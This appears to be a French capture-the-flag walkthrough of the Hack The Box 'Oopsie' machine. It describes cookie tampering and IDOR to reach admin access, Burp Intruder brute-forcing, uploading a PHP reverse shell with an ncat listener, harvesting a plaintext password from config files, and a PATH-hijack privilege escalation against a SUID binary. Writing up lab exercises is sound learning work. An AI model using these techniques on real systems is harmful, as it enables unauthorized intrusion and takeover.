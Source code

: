 code# OOPSIE

## Task 01
C'est partie pour celle ci on commance avec l'outil qui permet d'intercepter le traffic d'un site web? <br/>
Proxy, easy one 😄

---
## Task 02
Pour la seconde je vais utiliser BurpSuite pour intercepter le traffic du site en question! <br/>
On découvre donc la réponse a la deuxième question!<br/>

Le path sur le quelle la login page apparait est: 
```bash
/cdn-cgi/login
```

## Task 03
Ce sont les fichier cookie que nous pouvons modifier pour avoir acces a une page upload.

---
## Task 04
Pour cette tache il nous faut trouver le numero de l'admin il y a la version longue ou la version courte.<br/><br/>

Pour commancer nous constatons que lorsque nous nous connectons sur le site comme un utilisateur invité l'url de la page account contient un paramettre ID qui est passé sur 2 dans la logique si le 2 est présent c'est surement qu'il y a un utilisateur qui a le numero 1 en changeat donc cela on tombe sur la page `account` de Admin et on découvre que son numéro de user est `34322`. <br/><br/>

La methode plus longue est de ce connecter en tant qu'invité récuperer le cookie utiliser et de passé par BurpSuit pour effectuer un brutforce avec une flopper de numero a 4, 5, 6... pour obtenir le numéro utilisateur de l'admin.<br/>

Dans notre cas la ligne du cooki est : `Cookie: user:2233; role:guest` <br/>

On vas donc faire une attack avec l'onglet intruder en ajoutant les deux valeur avec les quelles nous voulons intéragir en selectionnant simplement les valeur puis en les ajoutant avec l'onglet add de l'intruder une fois cela fais on vas cliquer sur l'onglet payload et intéragir avec ces valeur on vas lui demander de mettre le role en `admin` et lui préciser une liste de numéro grace a seclists 😁. une fois les deux valeur paramettre on envoi l'attaque.<br/> <br/>

Aprés de longue minute d'attente 😴 (trés longue) on obtien enfin ce que l'on veut!!! Une requéte http avec le status `200` et on obtien donc le même resultat qui est `34322` youhou! 🎊

---
## Task 05
Pour cette tache rien de plus simple on ce balade sur le site est on voit un onglet uploads qui apparait aussi dans l'url de la page donc je me suis simplement dit que c'était  ca... 

Pour pouvoir avoir accés a la possibilité de télécharger un fichier via la site, on vas donc changer les valeur de `user` et de `role` avec elle que nous avons obtenue et la magie opére nous pouvons maintenant télécharger un fichier vers le serveur qui héberge le site. Nous allons donc pouvoir mettre en place un reverse shell.<br/><br/>

Une fois taper sur internet php-reverse-shell seclists pour avoir le chemin d'accés de clui ci dans mon pack seclist je le copie dans le document de ma box puis je le modifie pour lui dire que l'adresse d'écoute et `[mon IP]` et que le port d'écoute du port ncat est le `443`.<br/><br/>

On peut vérifier le chemin d'accés du répértoire uploads avec un gobuster pour brute force le chemin, mais par logique celui sera simplement [ip/uploads].<br/>

Je vais donc dans mon navigateur aprés avoir lancé mon ncat avec la commande `nc -lvnp 443` le port que j'ai préciser dans mon fichier envoyé.<br/>

```bash
http://[IP de la cible]/uploads/oopsie.php
```

Et c'est partie une fois cliquer sur entrer le ncat me renvoi un terminal de commande accéssible.
---
## Task 06
Partons a la recherche du fichier qui contien le mot de passe du user `Robert`. <br/>

En entrant sur le terminal premiere chose je tape la commande `whoami` qui me renvoi `www-data`.<br/>
Je me lance a la recherche de fichier intéréssant dans le dossier `/var/www/html/cdn-cgi/login` je le `cat * | grep -i passw*`, pour faire un cat de tout et partir a la recherche de chaque itération comportant `passw` et aprés avoir lancé cette commande quelque ligne apparaisse avec le user `admin` et son moit de passe `MEGACORP_4adm1!!` o yeaaaaaaahhhh🔥🔥 c'est ca que l'on veut!!! <br/>
En revanche je n'ai toujours pas le fichier qui contient le mot de passe du user robert alors je decide de cat les fichier un part un et découvre que le fichier qui contien son mot de passe et le `db.php`.<br/>
j'ai donc la réponse a cette tache! 😀

## Task 07 - Task 08 - Task 09 - Task 10
Quelle commande peut être exécuter avec -group bugtracker pour trouver tout les fichier que le group a? `find`!

Pour la suite des opération il nous faut un terminal opérationnel chose que je ne savais pas on peut faire du shell un proper-shell en tapant cette commande:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Maintenant que nous avons un bon terminal nous allons pouvoir essayer certaine commande que je ne pouvais effectuer avant!! nous avont un mot de passe alors pourquoi pas essayer de ce connecter avec:

```bash
su robert 
```

Et son mot de passe.

Pour run bugtracker il nous faut être en `root` donc on est bon.<br/>
SUID stand for `set owner user id`.<br/>
Et la réponse a la question quelle est l'éxcutable qui est run de maniére insécure est `cat`.

---

---
## Task User flag

Bon pour le coup j'ai trouver le user flag des que je suis entrer dans le terminal juste en cherchant dans `/home/robert`, ici ce trouvait un fichier nommer user.txt dans le quelle le flag ce trouvais.

pas si dur pour celui la...!

En revanche!

---
## Task root flag

Pour celui ci c'est une autre paire de manche... Je vais avoir besoin du walktrought pour apprendre de nouvelle choses <br/>
Nous voici en possession de quelque information. obtenue lors des taches 7, 8, 9 et 10. Nous allons les utiliser pour pour faire une escalade de privilége et obtenir le root flag. <br/>

On commence par utiliser la commande:

```bash
find / -group bugtracker 2>/dev/null 
```

Pour voir si il y a des binaries dans le groupe.<br/>
Ainsi la commande nous informe qu'il y a un SUID ce qui est bon pour nous.<br/>

En lançant ce baniary on constate qu'il prend des user input!<br/>

On vas donc pouvoir exploiter cat pour arriver a nos fin. Commençons par créer un fichier cat dans le répertoire /tmp avec comme contenu `/bin/sh` donnons lui les droit adéquat en tapant:
```bash
echo "/bin/sh" > cat
```
Pour vérifier que cela a bien était pris en compte on peut faire un cat de cat.<br/>

Pour pouvoir l'exploiter on vas maintenant ajouter le répertoire a la variable d'enviroenemtn PATH avec:
```bash
export PATH=/tmp:$PATH
```
On vérifie avec `echo $PATH`<br/>

Une fois fais nous avons plus qu'a executer bugtracker dans le répértoire `/tmp` ainsi aprés la commande whoami on constate que l'on est route. 

Allons donc nous ballader pour trouver le root flag!!!! 🤗🤗🤗